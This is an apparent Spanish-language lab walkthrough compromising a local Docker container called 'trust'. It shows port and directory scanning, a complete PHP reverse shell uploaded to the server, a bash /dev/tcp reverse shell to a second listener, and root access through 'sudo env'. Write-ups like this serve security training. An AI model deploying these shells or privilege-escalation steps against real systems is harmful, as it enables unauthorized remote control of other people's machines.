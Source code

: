 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129170850](https://github.com/user-attachments/assets/625fb784-e15c-4404-ae86-ef01257a99ea)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129171010](https://github.com/user-attachments/assets/dd899ca4-7367-4e67-b724-b5247bf4a2cb)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20241211175541](https://github.com/user-attachments/assets/d2aa4234-257c-4b88-83b4-f56a04d8c076)

Nos metemos en los directorios:

![Pasted image 20241211175247](https://github.com/user-attachments/assets/f6f0ecf6-66cf-47d4-be28-38f9024ddd6a)

![Pasted image 20241211175322](https://github.com/user-attachments/assets/01415bb3-7c03-4bca-950d-32c9a12c8d78)

Creamos payload en PHP:

![Pasted image 20241211182210](https://github.com/user-attachments/assets/2b2bc2eb-1707-4941-9ed5-aa7b42a8b188)

Creamos shell.php:

```Bash
nano shell.php
```

![Pasted image 20241211175648](https://github.com/user-attachments/assets/f801fbc0-87d7-4942-9ed2-cf4dcae7b6c0)

Pegamos código PHP:

```PHP
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![Pasted image 20241211182142](https://github.com/user-attachments/assets/d04ee130-2196-4c6c-acf4-5f9e95ed8ae8)

Subimos archivo PHP:

![Pasted image 20241211180228](https://github.com/user-attachments/assets/b5f44bb0-c608-4b6f-9e66-e5ec14d04154)

![Pasted image 20241211180322](https://github.com/user-attachments/assets/9b8bc42b-891c-4b5a-a956-3ccfb9c5070a)

Archivo subido:

![Pasted image 20241211180338](https://github.com/user-attachments/assets/1a2e2bf2-bc74-4ff1-a31f-11b93de718d5)

Comprobamos el archivo:

![Pasted image 20241211180358](https://github.com/user-attachments/assets/579b21df-a931-4833-8e73-b44f304d94cf)

Escuchamos en el puerto 4444:

```Bash
nc -lnvp 4444
```

![Pasted image 20241211180521](https://github.com/user-attachments/assets/cd87fb8e-3271-4317-b853-37e4118fd95c)

Escuchamos en otro puerto 443:

```Bash
nc -lnvp 443
```

![Pasted image 20241211184613](https://github.com/user-attachments/assets/a6020122-6a29-456d-880f-c99dc085d5c8)

Pinchamos en el archivo:

![Pasted image 20241211180553](https://github.com/user-attachments/assets/b4501304-d08c-4b8a-91d2-8167957332d7)

Recibimos conexión:

![Pasted image 20250129173437](https://github.com/user-attachments/assets/b787e7a8-f28a-4715-b9cf-ddfb621a65d1)

Metemos el siguiente comando para enviar la conexión a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/10.0.2.42/443 0>&1"
```

![Pasted image 20250129173458](https://github.com/user-attachments/assets/9040da23-c5b2-486a-996e-a159b3cb1915)

Miramos la otra shell:

![Pasted image 20250129173703](https://github.com/user-attachments/assets/8e89b412-30f6-4a07-a035-baf2d8fb2079)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20241211183648](https://github.com/user-attachments/assets/1be405ef-83c2-4f02-b1f0-86f23ed16e3c)

Elevamos con el comando env:

```Bash
sudo env /bin/bash
```

![Pasted image 20250129173331](https://github.com/user-attachments/assets/962fc77a-a52c-4fb3-a70c-87d42332e84b)

```Bash
/bin/bash -i
```

![Pasted image 20250129173357](https://github.com/user-attachments/assets/5ba49832-273d-4d49-afbd-bdee5ad70d84)

```
whoami
```

![Pasted image 20250129173804](https://github.com/user-attachments/assets/bb0fdbae-9d9d-4681-85d7-00737bff4ccd)
